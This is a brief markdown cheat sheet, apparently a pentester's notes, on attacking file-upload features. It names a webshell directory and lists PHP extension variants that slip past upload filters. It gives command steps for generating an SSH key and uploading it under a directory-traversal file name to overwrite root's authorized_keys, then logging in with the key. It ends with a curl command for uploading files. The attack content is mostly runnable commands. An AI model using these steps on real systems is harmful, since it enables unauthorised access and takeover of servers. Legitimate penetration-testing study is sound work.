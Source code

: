 ## Executable Files 
- /usr/share/webshells/ (Has All Kinds of Webshells)

- https://book.hacktricks.xyz/pentesting-web/file-upload
#### Filter Bypass(For more refer the above URL)
(pHP, phps, phtml,php7)
Note : Use curl to check 

## Non Executable Files 
We cannot access directly so we need to leverage directory traversal
#### Overwriting Files (Weak Permission)
```
ssh-keygen
cat file.pub > authorized_keys
chmod a+rwx authorized_keys
chmod 600 id_rsa
#try to overwrite 
../../../../../../../root/.ssh/authorized_keys (upload file name should be like this in request)
ssh -i id_rsa user@ip
```
#### Upload File using Curl 
```
curl --user 'user:pass' -T file.exe url
```
